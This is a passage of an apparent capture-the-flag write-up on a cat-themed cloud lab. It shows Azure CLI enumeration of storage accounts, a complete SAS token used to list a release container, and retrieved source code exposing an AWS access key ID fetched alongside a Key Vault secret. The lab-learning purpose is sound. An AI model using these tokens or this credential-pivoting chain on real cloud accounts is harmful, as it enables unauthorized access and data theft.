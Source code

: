 With this, we can sort of repeat what we've done so far expecting more information to be revealed. We quickly figure out that there is another storage account 

```bash
bash-5.1# az storage account list
[
  {
    ...
    "name": "meowvellousappstorage",
    ...
    "primaryEndpoints": {
      "blob": "https://meowvellousappstorage.blob.core.windows.net/",
      "dfs": "https://meowvellousappstorage.dfs.core.windows.net/",
      "file": "https://meowvellousappstorage.file.core.windows.net/",
      "internetEndpoints": null,
      "microsoftEndpoints": null,
      "queue": "https://meowvellousappstorage.queue.core.windows.net/",
      "table": "https://meowvellousappstorage.table.core.windows.net/",
      "web": "https://meowvellousappstorage.z23.web.core.windows.net/"
    }
]
```

The SAS token didn't have perms to list the containers in this storage account, but it was a pretty safe guess to assume the container `scm-releases` was here. 

```
bash-5.1# az storage blob list --account-name meowvellousappstorage --sas-token "sv=2018-11-09&sr=c&st=2022-09-01T00%3A00%3A00Z&se=2022-12-12T00%3A00%3A00Z&sp=rl&spr=https&sig=jENgCFTrC1mYM1ZNo%2F8pq1Hg9BO1VLbXlk%2FpABrK4Eo%3D" -c scm-releases
[
  {
    "container": "scm-releases",
    ...
    "name": "scm-latest-olympurr-app.zip",
    ...
  }
]
```

Now we have access to the source code which is a simple python script that appears to log stuff to AWS? _Ah, so this was what all the TODOs meant. Does that mean we're back to AWS? Just when I was getting comfortable with Azure..._ 


```py
import boto3
import requests
import json

import azure.functions as func
from azure.identity import ManagedIdentityCredential
from azure.keyvault.secrets import SecretClient

functionName = "event-webservice"
keyName = "AKIA5G4XMRW7TLT6XD7R"

def logURL(url):
    identity = ManagedIdentityCredential()
    secretClient = SecretClient(vault_url="https://olympurr-aws.vault.azure.net/", credential=identity)
    secret = secretClient.get_secret(keyName).value
    session = boto3.Session(
        aws_access_key_id=keyName,
        aws_secret_access_key=secret
    )
    
```